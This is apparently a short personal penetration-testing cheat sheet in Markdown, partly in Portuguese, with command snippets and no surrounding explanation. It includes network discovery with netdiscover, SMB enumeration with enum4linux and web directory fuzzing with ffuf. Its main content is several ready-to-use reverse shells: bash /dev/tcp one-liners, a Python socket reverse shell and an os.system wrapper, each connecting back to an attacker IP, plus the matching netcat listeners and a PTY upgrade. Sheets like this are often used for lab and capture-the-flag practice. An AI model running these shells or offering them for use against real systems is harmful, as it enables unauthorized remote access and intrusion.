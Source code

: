 ## netdiscover

```bash
sudo netdiscover -r 192.168.78.0/24
```

## shel reversa netcat


```bash
bash -i ->&/dev/tcp/192.168.0.35/1234 0>&1

sudo nc -lvp 1234
```

```bash
os.system("/bin/bash -c 'bash -i >& /dev/tcp/192.168.201.129/8080 0>&1'")

sudo nc -lvp 8080
```

```python
python3 -c 'import pty; pty.spawn("/bin/bash")'        
```

### shell reverse python

```python 
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```bash
sudo nc -lvp 1234
```

```bash
/bin/bash -i >& /dev/tcp/192.168.0.45/1234 0>&1
```

## enum4linux/SMB

```bash
enum4linux -a 192.168.0.158
```

## ffuf

```bash
ffuf -c -ic -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.0.191/~secret/FUZZ
ffuf -c -ic -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.0.191/~secret/.FUZZ -fc 403 -e .txt,.html
```
